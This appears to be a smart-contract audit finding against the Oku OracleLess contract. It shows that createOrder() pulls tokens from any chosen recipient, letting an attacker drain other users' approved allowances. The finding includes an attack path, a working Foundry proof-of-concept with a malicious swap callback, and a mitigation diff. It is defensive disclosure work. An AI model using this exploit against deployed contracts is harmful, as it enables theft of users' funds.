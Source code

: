Upbeat Lead Kestrel

High

# User allowance can be stolen

### Summary

Allowing to create order for arbitrary address can cause the user allowance stolen

### Root Cause

The [function `OracleLess::createOrder()`](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38-L67) allows caller to create order by collect funds from `recipient` address, but not from `msg.sender`
```solidity
    function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external override returns (uint96 orderId) {
        //procure tokens
@>        procureTokens(tokenIn, amountIn, recipient, permit, permitPayload);

        //construct and store order
        orderId = MASTER.generateOrderId(recipient);
        orders[orderId] = Order({
            orderId: orderId,
            tokenIn: tokenIn,
            tokenOut: tokenOut,
            amountIn: amountIn,
            minAmountOut: minAmountOut,
            recipient: recipient,
            feeBips: feeBips
        });

        //store pending order
        pendingOrderIds.push(orderId);

        emit OrderCreated(orderId);
    }

    function procureTokens(
        IERC20 token,
        uint256 amount,
@>        address owner,
        bool permit,
        bytes calldata permitPayload
    ) internal {
        if (permit) {
            IAutomation.Permit2Payload memory payload = abi.decode(
                permitPayload,
                (IAutomation.Permit2Payload)
            );

@>            permit2.permit(owner, payload.permitSingle, payload.signature);
@>            permit2.transferFrom(
                owner,
                address(this),
                uint160(amount),
                address(token)
            );
        } else {
@>            token.safeTransferFrom(owner, address(this), amount);
        }
    }
```
By this, anyone can create orders for the accounts that has allowance to the contract and fill that order with a bad exchange rate => steal approved funds from other users

- Note that the same issue happens with contract `StopLimit`

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Alice currently has allowance for `OracleLess` contract, i.e `1 WETH`
2. An attacker calls `OracleLess::createOrder()` with `recipient = Alice`, `minAmountOut = 0`, `tokenIn = WETH`, `tokenOut = USDC`
3. The attacker fills the order above by calling `fillOrder()` by paying just 1 wei of `USDC` (to bypass the check `minAmountOut`)

### Impact

- Users allowance/funds are stolen

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Bracket, IERC20, IBracket} from "contracts/automatedTrigger/Bracket.sol";
import {OracleLess} from "contracts/automatedTrigger/OracleLess.sol";
import {AutomationMaster, IPythRelay, IAutomation} from "contracts/automatedTrigger/AutomationMaster.sol";
import "contracts/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "forge-std/mocks/MockERC20.sol";

contract MockToken is MockERC20 {
    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract MyTest is Test {
    Bracket bracket;
    AutomationMaster master;
    OracleLess oracleLess;
    address permit2;

    IERC20 usdc;
    IERC20 weth;

    address usdcOracle;
    address wethOracle;

    address pythOracle;

    IERC20[] tokens;
    IPythRelay[] oracles;

    uint96 currentOrderId;

    address alice;

    function setUp() public {
        permit2 = makeAddr("permit2");
        usdcOracle = makeAddr("usdcOracle");
        wethOracle = makeAddr("wethOracle");
        pythOracle = makeAddr("PythOracle");

        alice = makeAddr("alice");

        master = new AutomationMaster();
        bracket = new Bracket(master, IPermit2(permit2));
        oracleLess = new OracleLess(master, IPermit2(permit2));

        MockToken _usdc = new MockToken();
        _usdc.initialize("usdc", "usdc", 8);
        _usdc.mint(address(this), 1000000e8);
        _usdc.mint(alice, 1000000e8);
        _usdc.approve(address(bracket), 1000000e8);
        vm.prank(alice);
        _usdc.approve(address(bracket), 1000000e8);

        usdc = IERC20(address(_usdc));

        MockToken _weth = new MockToken();
        _weth.initialize("weth", "weth", 18);
        _weth.mint(address(this), 1e6 ether);
        _weth.mint(alice, 1e6 ether);
        _weth.approve(address(bracket), 1e6 ether);
        vm.prank(alice);
        _weth.approve(address(bracket), 1e6 ether);

        weth = IERC20(address(_weth));

        vm.label(address(usdc), "USDC");
        vm.label(address(weth), "weth");

        tokens.push(usdc);
        tokens.push(weth);

        oracles.push(IPythRelay(usdcOracle));
        oracles.push(IPythRelay(wethOracle));

        master.registerOracle(tokens, oracles);
        master.setMaxPendingOrders(100);
    }


    function test_stealAllowance() public {
        vm.startPrank(alice);

        weth.approve(address(oracleLess), 1 ether);

        vm.stopPrank();

        uint96 orderId = master.generateOrderId(alice);

        uint aliceBalance = weth.balanceOf(alice);

        oracleLess.createOrder(weth, usdc, 1 ether, 0, alice, 0, false, new bytes(0));
        oracleLess.fillOrder(0, orderId, address(this), abi.encodeWithSignature("maliciousSwap()"));

        assertEq(weth.balanceOf(alice), aliceBalance, "balance should not change");
    }


    function maliciousSwap() external payable {

        // take 1 WETH
        weth.transferFrom(address(oracleLess), address(this), 1 ether);

        // send just 1 wei of USDC
        usdc.transfer(address(oracleLess), 1);
    }
}

```

Run the test `test_stealAllowance`, and the console shows
```bash
Failing tests:
Encountered 1 failing test in test/Counter.t.sol:MyTest
[FAIL: balance should not change: 999999000000000000000000 != 1000000000000000000000000] test_stealAllowance() (gas: 311090)
```

### Mitigation

```diff
-procureTokens(tokenIn, amountIn, recipient, permit, permitPayload);
+procureTokens(tokenIn, amountIn, msg.sender, permit, permitPayload);
```